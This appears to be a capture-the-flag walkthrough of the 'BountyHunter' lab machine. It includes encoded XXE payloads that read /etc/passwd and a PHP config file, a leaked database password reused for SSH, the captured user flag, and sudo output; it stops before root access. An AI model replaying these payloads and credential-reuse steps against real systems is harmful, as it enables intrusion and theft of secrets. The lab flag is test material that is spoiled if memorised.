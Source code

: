 # BountyHunter

## Ifconfig

```
inet 10.10.14.46  destination 10.10.14.46
inet6 fe80::c5a7:fe18:4b74:a136
```

## Nmap

> sudo nmap -sC -sV -A 10.10.11.100 | tee [nmap.log](./nmap.log)

=> Found there is 80 as a http port at server

## Gobuster

> gobuster dir -u 10.10.11.100 -w /usr/share/wordlists/dirb/common.txt 2> /dev/null | tee [gobuster.log](./gobuster.log)

=> /resources directory exploited

## Nikto

> nikto -h 10.10.11.100 | tee [nikto.log](./nikto.log)

```
+ OSVDB-3093: /db.php: This might be interesting... has been seen in web logs from an unknown scanner.
```

=> But db.php currently has nothing there

## Goto server site and find /resources

- README.txt

```
Tasks:

[ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
[X] Write tracker submit script
[ ] Connect tracker submit script to the database
[X] Fix developer group permissions
```

=> Inferring that `test` account may be a breakthrough

- bountylog.js

```
function returnSecret(data) {
	return Promise.resolve($.ajax({
            type: "POST",
            data: {"data":data},
            url: "tracker_diRbPr00f314.php"
            }));
}

async function bountySubmit() {
	try {
		var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>${$('#exploitTitle').val()}</title>
		<cwe>${$('#cwe').val()}</cwe>
		<cvss>${$('#cvss').val()}</cvss>
		<reward>${$('#reward').val()}</reward>
		</bugreport>`
		let data = await returnSecret(btoa(xml));
  		$("#return").html(data)
	}
	catch(error) {
		console.log('Error:', error);
	}
}
```

=> All data will be passed to `tracker_diRbPr00f314.php`

## Portal login

- Try to login with named "test" account

```
Exploit title: test
CWE: test
CVSS Score: test
Bounty Reward: test
```

=> It will generate a `tracker_diRbPr00f314.php` by POST

- Take a look at request of network

```
data: PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT50ZXN0PC90aXRsZT4KCQk8Y3dlPnRlc3Q8L2N3ZT4KCQk8Y3Zzcz50ZXN0PC9jdnNzPgoJCTxyZXdhcmQ+dGVzdDwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg==
```

- The data was encoded with base64, try to decode it

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

=> It's parsed with xml input, which will be vulnerable at [XML External Entity](https://en.wikipedia.org/wiki/XML_external_entity_attack)

- Replace the request by [xxe file](./xxe/xxe.xml) [(usage)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#exploiting-xxe-to-retrieve-files)

Becuz the request format of *raw* response is *base64-URL-encoded*

Convert to base64-encoded

```
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIHJld2FyZCBbPCFFTlRJVFkgeHhlIFNZU1RFTSAiZmlsZTovLy9ldGMvcGFzc3dkIj5dPgoJCTxidWdyZXBvcnQ+CgkJPHRpdGxlPjwvdGl0bGU+CgkJPGN3ZT48L2N3ZT4KCQk8Y3Zzcz48L2N2c3M+CgkJPHJld2FyZD4meHhlOzwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg==
```

From base64-encoded to URL-encoded

```
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIHJld2FyZCBbPCFFTlRJVFkgeHhlIFNZU1RFTSAiZmlsZTovLy9ldGMvcGFzc3dkIj5dPgoJCTxidWdyZXBvcnQ%2BCgkJPHRpdGxlPjwvdGl0bGU%2BCgkJPGN3ZT48L2N3ZT4KCQk8Y3Zzcz48L2N2c3M%2BCgkJPHJld2FyZD4meHhlOzwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3D%3D
```

- Resending by debug tools and replace the data with encoded data

> data=*above encoded data content*

- Reflected `/etc/passwd` on tag *reward* (enable raw to have a nice view)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

=> Found the *development* as a valid non-privileged user

- Get the db.php file by [php wrapper payloads](./xxe/xxe.xml)

Convert to base64-URL-encoded

```
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIHJld2FyZCBbPCFFTlRJVFkgeHhlIFNZU1RFTSAicGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT0vdmFyL3d3dy9odG1sL2RiLnBocCI%2BXT4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT48L3RpdGxlPgoJCTxjd2U%2BPC9jd2U%2BCgkJPGN2c3M%2BPC9jdnNzPgoJCTxyZXdhcmQ%2BJnh4ZTs8L3Jld2FyZD4KCQk8L2J1Z3JlcG9ydD4%3D
```

=> Reponse as a base64-encode data

```
PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=
```

- Decode the data

```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

- Induct the content

```
username: development
password: m19RoAU0hP41A1sTsq6K
```

## SSH Login

> ssh development@10.10.11.100

> whoami

```
development
```

> id

```
uid=1000(development) gid=1000(development) groups=1000(development)
```

```
user.txt
eca25dbd62925de90d5cd884e5ac47b9
```

## Attempt to get the root privilege

- Make sure sudo list

> sudo -l

```
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

- contract.txt

```
Hey team,

I'll be out of the office this week but please make sure that our contract with Skytrain Inc gets completed.

This has been our first job since the "rm -rf" incident and we can't mess this up. Whenever one of you gets on please have a look at the internal tool they sent over. There have been a handful of tickets submitted that have been failing validation and I need you to figure out why.

I set up the permissions for you to test this. Good luck.

-- John
```


